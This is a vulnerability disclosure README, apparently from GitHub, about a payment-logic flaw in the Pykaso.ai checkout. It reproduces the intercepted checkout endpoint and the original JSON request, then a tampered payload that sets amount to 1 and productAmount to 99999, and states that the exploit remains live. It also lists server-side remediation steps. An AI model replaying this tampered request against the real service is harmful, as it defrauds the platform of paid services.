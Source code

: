 # 0-Day Vulnerability Disclosure: Critical Logic Flaw in Pykaso.ai Payment System

## Summary

While analyzing Pykaso.ai, I noticed abnormal credit balances in a friend's account. This prompted a deeper investigation into the platform’s payment logic. Using a local MITM proxy, I discovered a severe client-side validation flaw that allows users to manipulate payment data and obtain premium service credits for a fraction of the actual cost.

This document outlines the technical details of the vulnerability, demonstrates the impact, and provides evidence of the exploit. The issue has been responsibly disclosed to the Pykaso team and remains active at the time of writing.

---

## Technical Details

### Step 1: Identifying Suspicious Behavior

A friend’s Pykaso.ai account had a significantly high number of credits despite being on a lower-tier plan. This led to suspicions of an unintended vulnerability.

### Step 2: Sniffing the Payment Endpoint

Using `mitmproxy`, I intercepted the network traffic and located the following endpoint triggered during checkout:

```
https://app.pykaso.ai/pricing/checkout/basic-50
```

The POST request payload looked like this:

```json
[
  {
    "amount": 6,
    "productAmount": 6,
    "userId": "X",
    "promoCodeId": "$undefined",
    "email": "example@yin.sh",
    "country": "DE"
  }
]
```

### Step 3: Modifying the Payload

I adjusted the `amount` and `productAmount` fields:

```json
[
  {
    "amount": 1,
    "productAmount": 99999,
    "userId": "null",
    "promoCodeId": "$undefined",
    "email": "example@yin.sh",
    "country": "DE"
  }
]
```

This led to a successful response from the server:

```json
0: {"a": "$@1", "f": "", "b": "null"}
1: "https://checkout.dodopayments.com/null"
```

The URL generated an invoice on the DodoPayments gateway for a payment of only **€1**.

### Step 4: Confirming the Exploit

After paying the €1 invoice, I returned to Pykaso.ai. My account was credited with **99,999+ credits**, equivalent to services worth thousands of euros.

The credits were fully usable and functioned as if legitimately purchased through a normal checkout flow.

---

## Evidence

Screenshots have been captured to support this vulnerability report, including:

- POST Request
- Invoice 
- Account dashboard showing inflated credits after payment


![sniff](https://raw.githubusercontent.com/culturally/pykaso.ai-0day/refs/heads/main/img/mitmproxysniff.png?token=GHSAT0AAAAAADFBENU3NKKGJKA6HQ44KZMO2CBVGVA)
![Invoice](https://raw.githubusercontent.com/culturally/pykaso.ai-0day/refs/heads/main/img/invoice.png?token=GHSAT0AAAAAADFBENU24DED52GVSYBDA3LS2CBVGXQ)
![transc](https://raw.githubusercontent.com/culturally/pykaso.ai-0day/refs/heads/main/img/tranhistory.png?token=GHSAT0AAAAAADFBENU35DHSJ7EZ3NAGVLWU2CBVFYQ)


---

## Impact

- **Unlimited credit generation:** Any user can gain access to high-tier services by paying minimal amounts.
- **Server-side validation bypass:** The payment system fully trusts client-side inputs for pricing.
- **Potential financial loss:** This exploit allows massive resource abuse at negligible cost.

---

## Remediation Recommendations

1. Validate all transaction data (amount, productAmount) strictly on the server.
2. Use signed tokens to protect integrity of client-side data.
3. Disallow credit or product multipliers from being passed in client-side JSON.
4. Implement server-side sanity checks to flag suspicious transactions.
5. Monitor invoice-generation frequency and volume per user account.

---

## Responsible Disclosure

I have contacted the Pykaso.ai team regarding this vulnerability. The exploit remains live at the time of publication. I will update this report upon receiving an official response or patch confirmation.

If you're part of the Pykaso security team, please reach out for a full disclosure package, including traffic logs, headers, and video proof of concept.

---

## Contact

**Researcher:** Detective  
**Email:** 0day@yin.sh 
**Report Copy:** https://yin.sh/repos/projects.php?folder=pykaso.ai-0day&file=README.md

---

## Legal Disclaimer

This report is intended solely for educational and responsible disclosure purposes. No data was sold, leaked, or misused. The vulnerability was reported in good faith to improve the platform’s security posture.

Unauthorized exploitation of vulnerabilities is illegal and unethical. Always follow responsible disclosure best practices.
